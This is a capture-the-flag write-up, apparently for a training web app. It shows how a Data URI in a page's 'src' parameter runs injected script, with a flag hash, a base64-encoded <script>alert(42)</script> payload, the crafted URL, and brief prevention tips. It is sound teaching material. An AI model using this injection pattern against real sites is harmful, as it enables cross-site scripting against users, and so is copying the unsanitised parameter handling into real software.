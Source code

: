# Data_URI

## flag

```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

## Discovery

1. By clicking on the NSA logo, you are redirected to the address:
   [host]/index.php?page=media&src=nsa.

2. Here, you can notice that the image is loaded using the identifier src=nsa. This means it is being accessed through a URI.

3. A URI allows access to a resource without needing its physical location. Using a Data URI, we can embed and execute a script directly.

## Exploitation

1. A Data URI is a method for embedding data directly into a web page. It allows you to include images, scripts, and other resources directly in the HTML code.

2. syntax: `data:[<mediatype>][;base64],<data>`

   - `<mediatype>`: The media type of the data (e.g., text/html, image/png, etc.).
   - `;base64`: Indicates that the data is base64 encoded.
   - `<data>`: The actual data to be embedded.

3. To exploit this vulnerability, we can create a Data URI that contains a script to alert the flag.

## Exploitation (Detailed)

1. create script to alert:
   `<script>alert(42)</script>`
2. convert the script to base64:
   `echo -n "<script>alert(42)</script>" | base64`
3. create the Data URI:
   `data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=`
4. replace the `src` parameter with the Data URI:
   `index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=`
5. Open the URL and observe the alert box displaying the flag.

# Prevention

1. **Sanitize User Input**: Always validate and sanitize user input to prevent the execution of malicious scripts.

2. **Avoid Data URIs**: Avoid using Data URIs to load external resources, as they can be used to execute arbitrary code.

3. **use data base to store the images and other resources**: Instead of using Data URIs, store images and other resources in a database or on the server and load them securely.
